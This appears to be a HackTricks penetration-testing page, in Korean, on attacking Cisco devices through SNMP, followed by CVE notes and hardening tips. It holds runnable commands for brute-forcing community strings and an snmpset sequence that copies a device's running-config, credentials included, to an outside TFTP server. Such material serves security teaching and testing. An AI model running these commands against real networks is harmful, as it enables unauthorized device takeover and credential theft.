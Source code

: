 # Cisco SNMP

{{#include ../../banners/hacktricks-training.md}}

## Cisco 네트워크의 펜테스팅

**SNMP**는 일반 메시지에 대해 **161/UDP** 포트와 트랩 메시지에 대해 **162/UDP** 포트를 사용하는 UDP에서 작동합니다. 이 프로토콜은 SNMP 에이전트와 관리자 간의 통신을 가능하게 하는 평문 "비밀번호" 역할을 하는 *커뮤니티 문자열*에 의존합니다. 이러한 문자열은 접근 수준을 결정하며, 특히 **읽기 전용(RO) 또는 읽기-쓰기(RW) 권한**을 설정합니다.

고전적이지만 여전히 매우 효과적인 공격 벡터는 **커뮤니티 문자열을 무차별 대입**하여 인증되지 않은 사용자에서 장치 관리자(RW 커뮤니티)로 상승하는 것입니다. 이 작업을 위한 실용적인 도구는 [**onesixtyone**](https://github.com/trailofbits/onesixtyone):
```bash
onesixtyone -c community_strings.txt -i targets.txt
```
다른 빠른 옵션은 Nmap NSE 스크립트 `snmp-brute` 또는 Hydra의 SNMP 모듈입니다:
```bash
nmap -sU -p161 --script snmp-brute --script-args brute.community=wordlist 10.0.0.0/24
hydra -P wordlist.txt -s 161 10.10.10.1 snmp
```
---

### SNMP를 통한 구성 덤프 (CISCO-CONFIG-COPY-MIB)
**RW 커뮤니티**를 얻으면 CLI 접근 없이 CISCO-CONFIG-COPY-MIB (`1.3.6.1.4.1.9.9.96`)를 악용하여 실행 중인 구성/시작 구성을 TFTP/FTP 서버로 복사할 수 있습니다. 두 가지 일반적인 접근 방식은 다음과 같습니다:

1. **Nmap NSE – `snmp-ios-config`**
```bash
nmap -sU -p161 --script snmp-ios-config \
--script-args creds.snmp=private 192.168.66.1
```
스크립트는 복사 작업을 자동으로 조정하고 구성을 stdout에 출력합니다.

2. **수동 `snmpset` 시퀀스**
```bash
# Copy running-config (4) to a TFTP server (1) – random row id 1234
snmpset -v2c -c private 192.168.66.1 \
1.3.6.1.4.1.9.9.96.1.1.1.1.2.1234 i 1 \    # protocol = tftp
1.3.6.1.4.1.9.9.96.1.1.1.1.3.1234 i 4 \    # sourceFileType = runningConfig
1.3.6.1.4.1.9.9.96.1.1.1.1.4.1234 i 1 \    # destFileType   = networkFile
1.3.6.1.4.1.9.9.96.1.1.1.1.5.1234 a 10.10.14.8 \ # TFTP server IP
1.3.6.1.4.1.9.9.96.1.1.1.1.6.1234 s \"backup.cfg\" \\
1.3.6.1.4.1.9.9.96.1.1.1.1.14.1234 i 4       # rowStatus = createAndGo
```
행 식별자는 *일회성*입니다; 5분 이내에 재사용하면 `inconsistentValue` 오류가 발생합니다.

파일이 TFTP 서버에 올라가면 자격 증명(`enable secret`, `username <user> secret` 등)을 검사하거나 수정된 구성을 장치로 다시 푸시할 수 있습니다.

---

### Metasploit goodies

* **`cisco_config_tftp`** – 동일한 MIB를 악용한 후 TFTP를 통해 running-config/startup-config를 다운로드합니다.
* **`snmp_enum`** – 장치 인벤토리 정보, VLAN, 인터페이스 설명, ARP 테이블 등을 수집합니다.
```bash
use auxiliary/scanner/snmp/snmp_enum
set RHOSTS 10.10.100.10
set COMMUNITY public
run
```
---

## 최근 Cisco SNMP 취약점 (2023 – 2025)
벤더 권고 사항을 추적하는 것은 참여 내에서 *제로데이-투-엔데이* 기회를 범위 지정하는 데 유용합니다:

| 연도 | CVE | 영향을 받는 기능 | 영향 |
|------|-----|-----------------|--------|
| 2025 | CVE-2025-20174 | SNMP 서브시스템 | 조작된 패킷이 IOS/IOS-XE (v1/v2c/v3)에서 인증된 *DoS* (재시작)를 유발합니다.   |
| 2024 | CVE-2024-20373 | IPv4 ACL 처리 | 잘못 구성된 **확장** ACL이 조용히 *실패*하여 유효한 커뮤니티/사용자가 알려진 경우 인증되지 않은 SNMP 폴링을 허용합니다.   |
| 2025 | (아직 CVE 없음) | SNMPv3 구성 제한 우회 | 유효한 v3 사용자가 거부되어야 하는 주소에서 폴링할 수 있습니다.   |

악용 가능성은 종종 커뮤니티 문자열이나 v3 자격 증명을 소유하는 것에 따라 달라집니다. 이는 무작위 대입 공격이 여전히 관련성이 있는 또 다른 이유입니다.

---

## 강화 및 탐지 팁

* 수정된 IOS/IOS-XE 버전으로 업그레이드하십시오 (위의 CVE에 대한 Cisco 권고 참조).
* v1/v2c보다 `authPriv` (SHA-256/AES-256)를 사용하는 **SNMPv3**를 선호하십시오.
```
snmp-server group SECURE v3 priv
snmp-server user monitor SECURE v3 auth sha <authpass> priv aes 256 <privpass>
```
* SNMP를 관리 VRF에 바인딩하고 **표준** 번호가 매겨진 IPv4 ACL로 **제한하십시오** (확장된 이름 ACL은 위험합니다 – CVE-2024-20373).
* **RW 커뮤니티**를 비활성화하십시오; 운영상 필요할 경우 ACL 및 뷰로 제한하십시오:
`snmp-server community <string> RW 99  view SysView`
* 다음을 모니터링하십시오:
- UDP/161 급증 또는 예상치 못한 출처 (SIEM 규칙).
- 비대역 구성 변경을 나타내는 `CISCO-CONFIG-MAN-MIB::ccmHistoryEventConfigSource` 이벤트.
* 특정 DoS 벡터를 줄이기 위해 **SNMPv3 로깅** 및 `snmp-server packetsize 1500`을 활성화하십시오.

---

## 참조

- Cisco: *Cisco 장치 간 구성 복사 방법*
- Cisco 보안 권고 *cisco-sa-snmp-uwBXfqww* (CVE-2024-20373)

{{#include ../../banners/hacktricks-training.md}}
